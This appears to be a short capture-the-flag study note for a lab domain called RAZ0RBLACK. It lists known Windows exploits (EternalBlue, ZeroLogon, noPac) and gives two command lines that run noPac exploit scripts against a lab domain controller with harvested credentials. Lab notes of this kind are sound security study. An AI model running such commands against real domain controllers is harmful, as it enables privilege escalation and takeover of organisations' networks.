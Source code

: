 ```yaml
---
cssclass: clean-embeds
---
```


# 9 Vulnerabilities
![[Global Vulnerabilities]]

## Known exploits
EternalBlue
ZeroLogon
noPac
	`python3 sam_the_admin.py -dc-ip 10.10.221.216 RAZ0RBLACK.thm/xyan1d3:cyanide9amine5628`
	`python3 noPac.py -use-ldap -dc-ip 10.10.221.216 'RAZ0RBLACK.thm/xyan1d3:cyanide9amine5628'`
